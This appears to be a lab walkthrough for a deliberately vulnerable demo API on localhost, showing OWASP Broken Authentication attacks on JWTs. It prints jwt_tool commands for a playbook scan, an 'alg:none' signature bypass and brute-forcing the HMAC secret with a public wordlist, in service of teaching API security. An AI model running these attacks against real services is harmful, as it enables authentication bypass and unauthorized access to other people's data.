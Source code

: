 # Insecure API

## API2:2023 Broken Authentication

We try to forge a JWTs using several well known attack types (using the playbook mode of the JWT_Tool):

Login using http://localhost:9090/api/v1/users/login
and specify the credentials `bruce.wayne@example.com / wayne` to log in and grab the returned JWT

```shell
export JWT=<the JWT you just grabbed>
```

Now try this playbook attack with the JWT you grabbed to find any vulnerabilities at http://localhost:9090/api/v1/partner:

```shell
./jwt_tool.py -t http://localhost:9090/api/v1/partner -rh "Authorization: Bearer $JWT" -cv "Here is your data for partner bruce.wayne@example.com (Bruce Wayne)" -M pb -np
```

After performing the playbook you see which attacks seemed to be successful.
Then you might try a specific attack type separately, like the exploit specifying the `none` signature algorithm as `alg:none`:

```shell
./jwt_tool.py -t http://localhost:9090/api/v1/partner -rh "Authorization: Bearer $JWT" -cv "Here is your data for partner bruce.wayne@example.com (Bruce Wayne)" -X a -np
```

In our case this is successful:

![JWT_Tool](images/jwt_tool_attack.png)

Finally try to brute force the JWT to find out the secret for signing a JWT using the symmetric HMAC signature algorithm
`jwt_tool.py $JWT -C -d jwt.secrets.list`

The secrets list was just grabbed from https://github.com/wallarm/jwt-secrets.

If you want to learn more about API Security (beyond JWTs) then look into the corresponding [API-Security GitHub Repo](https://github.com/andifalk/api-security).